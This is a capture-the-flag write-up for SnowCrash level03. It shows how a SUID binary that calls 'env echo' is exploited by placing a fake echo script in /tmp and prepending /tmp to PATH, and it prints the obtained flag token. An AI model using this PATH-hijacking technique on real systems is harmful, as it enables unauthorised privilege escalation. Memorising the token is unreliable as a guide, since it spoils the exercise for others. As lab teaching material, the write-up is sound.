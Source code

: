 # FLAG03

In the level03 home directory we found a binary file `level03` owned by flag03 we executed the binary and it printed `Exploit me`

```
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$ ./level03 
Exploit me
```
we noticed there is an s in the file permissions
A file with SUID always executes as the user who owns the file, regardless of the user passing the command.

So we used the binary ninja to find out what the binary really do ! 🤔

inside the main function we found that the binary is executing an echo command with the file uid and guid.
```c
gid_t eax = getegid();
uid_t eax_1 = geteuid();
setresgid(eax, eax, eax);
setresuid(eax_1, eax_1, eax_1);
return system("/usr/bin/env echo Exploit me");
```

So if we could make it executing the getflag command it wil be executed as the user who owns the file, we had to make a fake echo command and changing ecport it's path so the the binary will call our echo 😉.

```bash
#!/bin/bash

echo getflag > /tmp/echo
export PATH=/tmp:$PATH
chmod +x /tmp/echo
```

and booom 
```
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```